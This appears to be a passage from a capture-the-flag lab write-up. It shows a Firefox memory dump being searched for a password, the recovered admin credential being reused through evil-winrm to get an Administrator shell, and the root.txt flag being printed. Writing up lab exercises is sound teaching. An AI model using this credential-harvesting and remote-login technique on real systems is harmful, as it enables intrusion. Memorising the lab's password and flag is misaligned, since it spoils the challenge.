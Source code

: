 
Try to analyze the process file.<br>
To look for a word "password" in the process and we can find an URL parameter "password".
{% highlight shell %}
*Evil-WinRM* PS C:\Users\Chase\Documents> cat firefox.exe_191202_042810.dmp | Select-String "password"

---

Firefox\firefox.exeMOZ‘27�ÄGáõþGáõþRG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=MOZ_CRASHREPORTER_STRINGS_OVERRIDE=C:\Program Files\Mozilla Firefox\browser\crashreporter-override.iniNU

---

{% endhighlight %}

Now we found the following credential.
{% highlight shell %}
admin:4dD!5}x/re8]FBuZ
{% endhighlight %}

Then, try to login with the following way.<br>
We can achieve administrator shell.
{% highlight shell %}
root@kali:~# evil-winrm -u Administrator -p '4dD!5}x/re8]FBuZ' -i 10.10.10.149

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator

*Evil-WinRM* PS C:\Users\Administrator\Documents>
{% endhighlight %}

As always. root.txt is in the directory "C:\Users\Administrator\Desktop".
{% highlight shell %}
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-a----        4/22/2019   9:05 AM             32 root.txt                                                                                                                                                                                                


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
50dfa3c6bfd20e2e0d071b073d766897

*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
{% endhighlight %}
